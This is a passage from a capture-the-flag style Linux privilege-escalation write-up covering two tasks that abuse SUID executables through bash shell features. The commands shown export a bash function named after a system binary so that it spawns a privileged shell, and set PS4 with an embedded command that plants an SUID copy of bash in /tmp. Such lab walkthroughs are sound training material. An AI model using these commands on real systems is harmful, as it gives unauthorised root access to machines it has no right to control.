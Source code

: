 ```
/bin/bash --version
```

![image](https://user-images.githubusercontent.com/14150485/172801031-526a6403-a58f-4d74-a303-e7c205c99b69.png)

The current version is 4.1.52(1)-release, meaning we can indeed define functions with file names. Let's follow the intructions on the task to create one with the name `/usr/sbin/service` that will execute a new bash shell, using option `-p`to ensure permissions are preserved, and then export the function:

```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Once done we can proceed to run the  `/usr/local/bin/suid-env2` executable to get our root shell:

![image](https://user-images.githubusercontent.com/14150485/172802087-a853024c-96ae-4fa2-ba0f-b85b3f7f98c0.png)

<br/>

#### 14.1: Read and follow along with the above.

```
No answer needed
```

<br/>
<br/>


### 15: SUID / SGID Executables - Abusing Shell Features (#2)

The example demonstrated in this second part will only work with bash shell versions 4.4 and above.

When in debugging mode, Bash uses the environment variable `PS4` to display an extra prompt for debugging statements.

Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

![image](https://user-images.githubusercontent.com/14150485/172802831-3042d285-a920-48c9-88b4-b7f3088832b5.png)

This has created a `/tmp/rootbash` executable with SUID that we can use to gain root on the target machine:

```
/tmp/rootbash -p
```

![image](https://user-images.githubusercontent.com/14150485/172803148-e86133a5-86b3-4aed-8972-75567186a9cc.png)
